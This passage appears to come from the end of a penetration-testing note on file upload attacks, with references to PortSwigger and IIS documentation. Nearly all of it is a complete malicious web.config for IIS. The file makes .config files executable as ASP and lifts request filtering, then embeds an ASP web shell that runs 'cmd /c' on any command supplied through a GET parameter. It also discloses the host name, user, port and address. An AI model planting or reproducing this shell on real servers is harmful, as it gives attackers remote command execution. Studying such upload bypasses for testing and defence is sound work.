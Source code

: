 ```xml[web.config]
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!--
<% Response.write("-"&"->")%>
<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")

Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)

    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>

<BODY>
<FORM action="" method="GET">
<input type="text" name="{{ parameter command }}" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>

<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("{{ parameter command }}")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>

```

[^1]: Port Swigger Web Security Academy: https://portswigger.net/web-security/file-upload
[^2]: Wikipedia - List of file signatrues: https://en.wikipedia.org/wiki/List_of_file_signatures
[^3]: Configure handlers on IIS: https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/#configuration-sample